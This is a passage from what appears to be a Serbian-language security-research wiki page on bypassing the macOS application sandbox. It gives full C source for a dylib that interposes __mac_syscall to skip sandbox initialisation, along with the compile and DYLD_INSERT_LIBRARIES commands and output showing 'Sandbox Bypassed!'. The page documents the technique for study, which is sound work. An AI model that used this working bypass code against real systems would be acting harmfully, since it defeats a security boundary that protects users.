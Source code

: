 
```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand
_libsecinit_initializer called
Sandbox Bypassed!
```

#### Interpost `__mac_syscall` da biste sprečili Sandbox

{% code title="interpose.c" %}
```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>
#include <string.h>

// Forward Declaration
int __mac_syscall(const char *_policyname, int _call, void *_arg);

// Replacement function
int my_mac_syscall(const char *_policyname, int _call, void *_arg) {
printf("__mac_syscall invoked. Policy: %s, Call: %d\n", _policyname, _call);
if (strcmp(_policyname, "Sandbox") == 0 && _call == 0) {
printf("Bypassing Sandbox initiation.\n");
return 0; // pretend we did the job without actually calling __mac_syscall
}
// Call the original function for other cases
return __mac_syscall(_policyname, _call, _arg);
}

// Interpose Definition
struct interpose_sym {
const void *replacement;
const void *original;
};

// Interpose __mac_syscall with my_mac_syscall
__attribute__((used)) static const struct interpose_sym interposers[] __attribute__((section("__DATA, __interpose"))) = {
{ (const void *)my_mac_syscall, (const void *)__mac_syscall },
};
```
{% endcode %}

```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand

__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 0
Bypassing Sandbox initiation.
__mac_syscall invoked. Policy: Quarantine, Call: 87
__mac_syscall invoked. Policy: Sandbox, Call: 4
Sandbox Bypassed!
```
